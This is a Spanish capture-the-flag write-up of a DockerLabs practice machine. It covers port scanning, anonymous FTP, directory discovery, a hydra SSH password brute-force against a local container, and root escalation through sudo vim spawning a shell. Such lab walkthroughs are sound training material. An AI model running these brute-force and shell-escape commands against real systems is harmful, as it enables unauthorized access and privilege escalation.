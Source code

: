 ```yaml
---
{"-publish":true,"permalink":"/dockerlabs/muy-facil/obssesion/","PassFrontmatter":true}
---
```


![[Pasted image 20250526082559.png\|Pasted image 20250526082559.png]]

empezamos dando un nmap para poder verificar los puertos abiertos:

![[Pasted image 20250526082650.png\|Pasted image 20250526082650.png]]

Vemos que los puertos abiertos son:
- 21
- 22
- 80

observamos que el puerto 21 que es el por defecto del ftp tiene login anonymous:

![Pasted image 20250526082822.png](/img/user/imgs/Pasted%20image%2020250526082822.png)

Observaos que tenemos dos archivos:

chat-gonza.txt
pendientes.txt

- Lo mas interesante que podemos encontrar esta en pendientes.txt:

![Pasted image 20250526082950.png](/img/user/imgs/Pasted%20image%2020250526082950.png)

- **creo que tengo ciertos permisos habilitados que no son del todo seguros**

Podemos pensar en credenciales que tiene sueltas por ahi o cosas asi para loguearnos en el ssh.

Usamos dirsearch para poder buscar directorios;

![Pasted image 20250526083153.png](/img/user/imgs/Pasted%20image%2020250526083153.png)

Nos sale los siguientes directorios, lo mas relevante que encontramosw es backup:

![Pasted image 20250526083511.png](/img/user/imgs/Pasted%20image%2020250526083511.png)

Dentro de backup, existe un backup.txt y nos muestra un mensaje: **Usuario para todos mis servicio: russoski (cambiar pronto!)**

por lo tanto intuimos que es el usuario del ssh, entonces solo nos falta el password, asi que intentamos un hydra:

```
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Pasted image 20250526083728.png](/img/user/imgs/Pasted%20image%2020250526083728.png)

lo que encontramos es lo siguiente:

```
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
```

entonces ingreseemos al ssh:

**russoski:iloveme**

![Pasted image 20250526083903.png](/img/user/imgs/Pasted%20image%2020250526083903.png)

Podemos continuar con un **sudo -l**

![[Pasted image 20250526083943.png\|Pasted image 20250526083943.png]]

```
Matching Defaults entries for russoski on 0851434ed3f2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on 0851434ed3f2:
    (root) NOPASSWD: /usr/bin/vim
```

eso significa **russoski** puede ejecutar ese programa como super usuario.

- Finalmente solo colocamos: **sudo vim -c ':!/bin/sh'**

![[Pasted image 20250526084153.png\|Pasted image 20250526084153.png]]

Explicacion:

Eso se puede utilizar para salir de entornos restringidos mediante la creacion de un shell de sistema operativo.

Para mas informacion: https://gtfobins.github.io/gtfobins/vim/

thanks.


